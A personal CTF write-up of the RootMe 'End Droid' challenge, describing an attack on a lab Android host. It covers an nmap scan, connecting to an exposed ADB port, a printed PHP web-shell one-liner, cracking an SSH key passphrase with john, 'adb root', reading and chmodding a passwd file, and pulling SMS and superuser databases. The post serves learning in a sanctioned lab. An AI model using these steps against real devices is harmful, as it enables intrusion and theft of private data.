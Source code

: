 ```yaml
---
title: RootMe - End Droid Writeup
date: 2023-10-08
categories: [RootMe, Realistic]
tags: [RootMe, RootMe - Realistic, WriteUp, Android]
author: barabulkit
---
```


# RootMe - End Droid

This challenge is kinda dissappointing for me (honestly i didn't validate it)\
But i will consider like i did, cause i guess i found anything possible, and even the flag, i'm just not able to validate it

This is challenge about android and all we have is the server address, so i started with 

```shell
nmap -PN -sT -sV -p0-65535 ctf04.root-me.org
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 19:17 +03
Nmap scan report for ctf04.root-me.org (212.129.28.21)
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp open  http    PHP cli server 5.5 or later
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)

Service Info: OS: Android; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds
```

We can see that there is ADB service at 5555 port\
lets install adb client to kali and connect to this service
```shell
sudo apt install android-tools-adb android-tools-fastboot
```

And then connect to device
```shell
adb connect ctf04.root-me.org:5555
```

now we can start searching for flag on the server
```shell
ls /mnt/shell/emulated/0
Alarms
Android
Boot_Shell
DCIM
Download
Movies
Music
Podcasts
Ringtones
htdocs
kickwebinfo
obb
passwd
ssh
storage
www
```

I have found what i was looking for there (passwd file), but wasn't able to read it
```shell
adb shell cat /mnt/shell/emulated/0/passwd
/system/bin/sh: cat: /mnt/shell/emulated/0/passwd: Permission denied
```

i wasn't knowing why i can't read it yet, so i just continued my investigation\
And found php backdoor
```
adb shell cat /mnt/shell/emulated/0/www/public/announce/backdoor.php
<?php system($_POST['secret']);?>
```

Unfortunately this is not very usefull cause this is the same thing as `adb shell`\
But then i found private ssh key
```shell
adb shell ls /mnt/shell/emulated/0/www/public/secret22000
touhid.key
```

So i pulled it and tried to connect to ssh with it
```shell
adb pull touhid.key
ssh -i touhid.key -p 22000 touhid@ctf04.root-me.org
```

But got prompted that i need a passphase for this key\
So i cracked this with johntheripper

```shell
ssh2john touhid.key > touhid.hash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10.txt
john --wordlist=darkweb2017-top10.txt touhid.hash
john --show touhid.hash

touhid.key:qwerty

1 password hash cracked, 0 left
```

But it didn't give me anything, i was not able to connect even with passphrase
```shell
ssh -i touhid.key -p 22000 touhid@ctf04.root-me.org
touhid@ctf04.root-me.org: Permission denied (publickey).
```

Then i went to google to read more about adb and android filesystem\
And i found that i can try to get root with just
```shell
adb root
```

and it worked, but i still couldn't read passwd file
```shell
adb shell cat /mnt/shell/emulated/0/passwd
/system/bin/sh: cat: /mnt/shell/emulated/0/passwd: Permission denied
```

And that was because i read it from wrong location, there is actual storage at `/data/media/0` that is the same as `/mnt/shell/emulated/0`
And i was able to read passwd from it
```shell
adb shell cat /data/media/0/passwd
c1937a38926e84f2c5995438afd6e41f
```

I can even change access rights to this file through `/data/media/0`
```shell
adb shell chmod 777 /data/media/0/passwd
```

And now i can read it even from `/mnt/shell/emulated/0`
```shell
adb shell cat /mnt/shell/emulated/0/passwd
c1937a38926e84f2c5995438afd6e41f
```

And looks like thats it, i have solved the challenge, but i only was able to validate it on virtual env page for this challenge
![validated](/assets/img/rootme/realistic/enddroid/realistic-enddroid.png)

But i wasn't able to validate a challenge with this flag at the challenge page so it still not finished
I even tried to do a bit more, i found flag.txt
```shell
adb shell cat /data/root/flag.txt 
No flag here but you can check your sms :) !
```

But it is not a flag, but there is a hint to check sms.
So i downloaded sms database with
```shell
adb pull /data/data/com.android.providers.telephony/databases/mmssms.db
```

But it was empty, i then downloaded calendar database, downloads database, gmail database, and in all this dbs there was nothing\
I also found another way to obtain flag i already have through superuser database
```shell
adb pull  /data/data/com.thirdparty.superuser/databases/

/data/data/com.thirdparty.superuser/databases/: 4 files pulled, 0 skipped. 0.0 MB/s (119912 bytes in 3.169s)
```

![superuserdb](/assets/img/rootme/realistic/enddroid/enddroiddb.png)

So that is all i was able to find in this challenge and still was not able to validate it, but at least i learned a bit about android